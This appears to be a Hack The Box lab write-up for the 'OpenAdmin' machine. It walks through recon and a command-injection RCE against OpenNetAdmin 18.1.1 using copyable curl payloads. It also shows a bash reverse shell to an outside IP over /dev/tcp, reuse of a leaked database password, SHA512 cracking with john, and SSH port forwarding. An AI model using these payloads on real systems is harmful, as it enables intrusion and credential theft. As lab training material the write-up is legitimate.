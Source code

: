 # OpenAdmin
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9908a103-8c8b-4771-bb74-0bf955c31f61)


## Lessons Learned:
- Using dirsearch to enumerate webpages.
- Exploiting OpenNetAdmin (ONA) v.18.1.1 --> Remote Code Execution, Command Injection.
- Implement bash reverse shell.
- Reviewing apache2 internal configuration (reviewing the virtual host is running as which user --> lead to port forwarding).
- Password Cracking using john.
- Port Forwarding (to be able to access internal website).
- 

## STEPS:
> PORT SCANNNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC openadmin.htb --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-05 20:41 PDT
Nmap scan report for openadmin.htb (10.10.10.171)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

1. Based from the nmap results, the machine runs web application at port 80 and opens ssh login at port 22.
2. Noticed based from the service's detail, once we open the webapp it shall rendered Ubuntu Default Page.

> WEB DEFAULT PAGE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/061c4f0e-2d71-4aa9-a168-99436176d7df)


3. Knowing this condition, seems the approach is to do directory listing.

> RESULT USING DIRSEARCH

```
dirsearch -u http://openadmin.htb:80
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a74ba915-39d9-418d-a4bf-26bde6d2a304)


4. Interesting! We found 2 accessible endpoint.

> Accessing /music/

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f38ff98-6fa1-425e-8788-53856e547961)


5. Long story short, after reviewing every feature. Figured out that login feature shall redirect us to `/ona` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c9b4311-3f21-42bf-bc44-71ababe5b4a7)


> Accessing /ona/


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f16362b7-372d-40c6-ba05-34704060d1a7)


6. By checking for documentation, turns out ONA is an abbreviation of **OpenNetAdmin**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45440e69-a7b4-4781-9f26-697aaed46333)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/44663749-8bbf-49eb-b6fd-d9e97afc4f98)


7. Noticed, it disclosed the service's version --> `18.1.1`. Using `searchsploit` or internet to find vuln related to this version, found these results:

> Internet

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ab29c1d-0c5f-4864-8f4d-4347e780176c)

> Searchsploit

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/11ea3f32-2360-42de-99f2-886496b844f1)


8. It's remote code execution, also there's github POC's which can be useful (it speed up our exploit to drop a shell).
9. Anyway, let's use the exploit from exploit.db first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/680d056a-3507-48d7-a5b0-fd42fe46fe17)


10. We just need to replace the CMD and URL.

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/722b8bc0-ee83-410a-8c12-ed38fe052568)


11. Awesome, we can do reverse shell from this state. Now let's use the github POC to speed up our process to drop a shell.

> Using the github POC

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/401f15c8-7ea3-4d2a-a60a-c69ba78b8e7e)


12. Noticed we a got a shell as `www-data`, which means in order to obtain the user flag, we need to swtich to a legitimate user account.
13. Anyway I am not too comfortable using shell from the Github POC, let's do reverse shell on our own. Let's use bash.

> BASH REVERSE SHELL - PAYLOAD

```txt
bash -c 'bash -i >%26 /dev/tcp/tun0/1337 0>%261'
```

> IMPLEMENTATION

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";bash -c 'bash -i >%26 /dev/tcp/10.10.14.29/1337 0>%261';echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d6873a0-f74e-4a4e-b140-ab3e56638b91)


14. Traversing to `/home` directory to check users registered in this machine. Found 2 users namely **jimmy** and **joanna**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef5a2c80-db6f-4d45-885f-a77d4b5684b6)


15. Upon reviewing the userinfo at ONA dashboard, identified it uses mysql and the host is local.
16. Hence let's traverse to the webapp location --> `/var/www/html/ona`.
17. Checking the `/local/config` found file --> `database_settings.inc.php` which should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b737d855-08f8-4bcc-b17f-5ef8f676ccdc)


18. Found the db password of `ona_sys` --> `n1nj4W4rri0R!`.  However we can't open mysql in the machine. At this condition, we can speculate a password reuse to a certain user.
19. After tried for both, turns out **jimmy** using the same password as the DB.

> LOGGED IN AS JIMMY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d18e759-41db-4e91-ae2e-361e1873bda9)


20. Great! But sadly, there is no user flag inside **jimmy**'s home directory. Seems the goal is to be authenticated as **joanna** to get the user flag.
21. Upon traversing several configuration files, found a configuration that shall let us authenticated as **joanna**.
22. Reviewing the **apache2** --> **internal.conf** file, it revealed that the internal virtual host is running as **joanna** on localhost at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/28a6d26b-c85c-4753-a4f7-7e2ec0f41872)


23. Traversing to `/var/www/internal` found 3 .php files --> `main.php`, `index.php`, and `logout.php`. Our interest should only for **main** and **index**.

> Reviewing main.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/86dee7d8-3904-4134-9314-0ef537b4745b)


24. Noticed it printed out joanna public key once we logged in at the webapp.

> Reviewing index.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7585c7d-e89c-46ad-9ba6-d8a00831b593)


25. At index.php file, we can see a hashed password for jimmy account. The password is hashed with SHA512, which is crackable using john or might be crackstation has the db for that password. Let's try both.

> USING CRACKSTATION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/09f2e1a2-5979-4b1d-b1ed-15439871fdea)


> USING JOHN

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA512 --rules=Jumbo
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ebb8375b-c8e7-470a-9143-d4a80d6fd947)


26. Both states for `Revaled`.
27. Next our objective is to reach the internal sites. Let's do port forwarding.
28. Now reconnect to jimmy over SSH with a tunnel so that we can reach the internal webapp/website.

> PORT FORWARDING

```
ssh jimmy@openadmin.htb -L 52846:localhost:52846
```

29. Now we can access the internal website at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0343b9d-c5af-42c9-9481-800f7ea0567f)

